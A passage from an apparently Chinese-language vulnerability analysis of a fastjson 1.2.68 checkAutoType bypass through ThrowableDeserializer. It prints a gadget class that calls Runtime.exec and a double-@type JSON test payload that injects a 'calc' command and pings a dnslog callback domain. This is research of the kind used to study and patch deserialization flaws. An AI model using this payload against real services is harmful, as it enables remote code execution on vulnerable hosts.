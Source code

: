 从上面的搜索结果中可以看到在JavaBeanDeserializer、ThrowableDeserializer中调用了checkAutoType并且exceptClass不为空，我们这里先来看一下ThrowableDeserializer，该类主要是对Throwable异常类进行反序列化，我们可以在ParserConfig.getDeserializer中找到对应的反序列化示例类型：

com\alibaba\fastjson\1.2.68\fastjson-1.2.68-sources.jar!\com\alibaba\fastjson\parser\ParserConfig.java
826

![]()

可以从上面看到ThrowableDeserializer是Throwable用来反序列化异常类的，我们先来看一下ThrowableDeserializer，可以看到在ThrowableDeserializer中可以根据第二个@type的值来获取具体类，并且根据传入的指定期望类进行加载：

![]()

因此可以反序列化继承自Throwable的异常类，在这里我们可以借助setter、getter等方法的自动调用，来挖掘gadget，下面是浅蓝师提供的一个Gadget，代码源自Y4er师傅：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;  
    import java.io.IOException;  
    public class ViaThrowable extends Exception {    private String domain;  
        public ViaThrowable() {        super();    }  
        public String getDomain() {        return domain;    }  
        public void setDomain(String domain) {        this.domain = domain;    }  
        @Override    public String getMessage() {        try {            Runtime.getRuntime().exec("cmd /c ping "+domain);        } catch (IOException e) {            return e.getMessage();        }        return super.getMessage();    }}

测试载荷：

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;import com.alibaba.fastjson.JSONObject;  
    public class ThrowableMain {    public static void main(String[] args) {        String payload ="{\n" +                "  \"@type\":\"java.lang.Exception\",\n" +                "  \"@type\": \"org.heptagram.fastjson.ViaThrowable\",\n" +                "  \"domain\": \"qbknro.dnslog.cn|calc\"\n" +                "}";        JSONObject.parseObject(payload);    }}

在上面的载荷中我们一共传入了两个@type，其中第一个是期望类(expectClass)，第二个是需要反序列化的类，经过这样构造后在检查AutoTypeSupport之前就已经返回了clazz，之后接着为期望类选择反序列化的解析器，从而匹配到了Throwable.class，之后当扫描到第二个@type指定的类名后将其作为exClassName传入checkAutoType，此时checkAutotype传入的第二个参数为Throable.class也为Exception.class的接口，此时如果exClassName是实现或继承自Throwable就能过checkAutotype，下面是执行的结果：

![]()

###### JavaBeanDeserializer

在fastjson中对大部分类都指定了特定的deserializer，如果未指定则会通过createJavaBeanDeserializer()来指定deserializer，通常情况下都是一些第三方类才会调用到这里：

/com/alibaba/fastjson/1.2.68/fastjson-1.2.68-sources.jar!/com/alibaba/fastjson/parser/ParserConfig.java
832
